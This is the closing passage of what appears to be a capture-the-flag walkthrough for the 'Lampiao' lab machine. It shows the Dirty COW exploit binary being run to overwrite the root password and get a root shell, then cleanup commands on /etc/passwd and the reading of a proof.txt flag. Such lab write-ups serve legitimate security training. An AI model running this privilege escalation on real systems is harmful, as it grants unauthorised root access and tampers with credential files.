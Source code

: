 If we want to gain a shell directly, we can run the exploit with the `-s` flag.

```
tiago@lampiao:/tmp$ ./dcow -s
Running ...
Password overridden to: dirtyCowFun

Received su prompt (Password: )

echo 0 > /proc/sys/vm/dirty_writeback_centisecs
cp /tmp/.ssh_bak /etc/passwd
rm /tmp/.ssh_bak
root@lampiao:~# echo 0 > /proc/sys/vm/dirty_writeback_centisecs
root@lampiao:~# cp /tmp/.ssh_bak /etc/passwd
root@lampiao:~# rm /tmp/.ssh_bak
root@lampiao:~# 
```

### proof.txt

We can now `cat` the `proof.txt` flag.

```
root@lampiao:~# cat /root/proof.txt
133d5c0ad1d55b176113a9ded654df3f
```
